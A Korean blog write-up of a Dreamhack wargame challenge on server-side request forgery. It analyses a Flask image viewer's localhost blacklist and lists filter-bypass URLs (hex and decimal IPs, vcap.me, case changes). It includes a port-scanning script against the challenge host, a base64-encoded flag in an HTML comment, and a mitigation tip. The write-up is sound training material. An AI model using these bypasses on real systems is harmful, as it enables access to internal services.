 ```yaml
---
layout : single
title : "[Dreamhack] STAGE9. Server Side Request Forgery"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - ServerSide : Server Side Request Forgery (SSRF)

-  [x] 함께 실습 : web-ssrf

## 함께 실습 : web-ssrf

플래그는 /app/flag.txt 에 있다

### 웹 서비스 분석

#### /img_viewer

GET : img_viewer.html 렌더링

POST : 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

#### run_local_server 함수

파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버를 실행한다. http.server.HTTPServer의 두 번째 인자로 http.server.SimpleHttpRequestHandler을 전달하면, 현재 디렉토리를 기준으로 URL이 가리키는 리소스를 반환하는 웹 서버가 생성된다. 

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)

def run_local_server():
    local_server.serve_forever()

threading._start_new_thread(run_local_server, ())
```

### 취약점 분석 

```python
elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
    data = open("error.png", "rb").read()
    img = base64.b64encode(data).decode("utf8")
    return render_template("img_viewer.html", img=img)
```

img_viewer는 위와 같은 방법으로 127.0.0.1 또는 localhost가 포함된 URL로의 접근을 막기에, 이를 우회하면 SSRF를 통한 내부 HTTP 서버 접근을 할 수 있다.

\* URL 필터링은 URL에 포한되면 안되는 문자열로 블랙리스트를 만들고, 이를 이용하여 이용자의 접근을 제어하는 블랙리스트 필터링과, 접근을 허용할 URL로 구성된 화이트리스트 외의 URL을 모두 차단하는 화이트리스트 필터링으로 나뉜다

### 익스플로잇

- 127.0.0.1과 매핑된 도메인 이름 사용 <br>임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하거나, 이미 127.0.0.1에 매핑된 *.vcap.me 를 이용하여 접근할 수 있다

- 127.0.0.1의 alias 이용 <br>하나의 IP는 여러 방식으로 표기되는데, 127.0.0.1의 경우, 다음과 같은 방식으로 표기될 수 있다.

>>|How|Example|
|:---|:---|
|16진수로 변환|0x7f.0x00.0x00.0x01|
|16진수 변환에서 . 제거|0x7f000001|
|위 숫자를 10진수로 변환|2130706433|
|각 자리에서 0 생략|127.1 / 127.0.1|

- localhost의 alias 이용<br>호스트와 스키마는 대소문자를 구분하지 않으므로, localhost의 임의 문자를 대문자로 바꾸어도 같은 호스트를 의미한다

#### 필터링을 우회할 수 있는 로컬호스트의 URL

http://vcap.me:8000/

http://0x7f.0x00.0x00.0x01:8000/

http://0x7f000001:8000/

http://2130706433:8000/

http://Localhost:8000/

http://127.0.0.255:8000/

<!-- data:image/png;base64, REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9 -->

#### 풀이

1) 아래와 같이 내부 HTTP 서버의 포트번호를 알아내는 코드를 작성 후 실행한다

```python
from flask import (
    Flask,
    request
)
import requests

for port in range(1500, 1800):
    res = requests.post('http://host3.dreamhack.games:10334/img_viewer', data={'url': 'http://Localhost:' + str(port)})
    print(port)
    if len(res.text) != 65121: # error.png의 res.text 길이 = 65121 바이트
        print('random port: ' + str(port))
        break
```

2) 다음과 같이 포트 번호의 정보를 얻는다

<img src = "/images/wargame/19.png"><br>

3) 포트 번호를 넣어 app/flag.txt 에 접근한다

<img src = "/images/wargame/17.png"><br>

4) 출력되는 img의 src가 바뀐 것을 볼 수 있는데, 다음 정보를 base64 디코더에 넣어 디코딩 하면 flag를 얻을 수 있다

<img src = "/images/wargame/18.png"><br>

### SSRF 공격을 막으려면 ?

화이트리스팅으로 강한 URL 필터링을 적용하거나, HTTP 요청을 하는 애플리케이션을 내부망과 분리하여 약점을 보완할 수 있다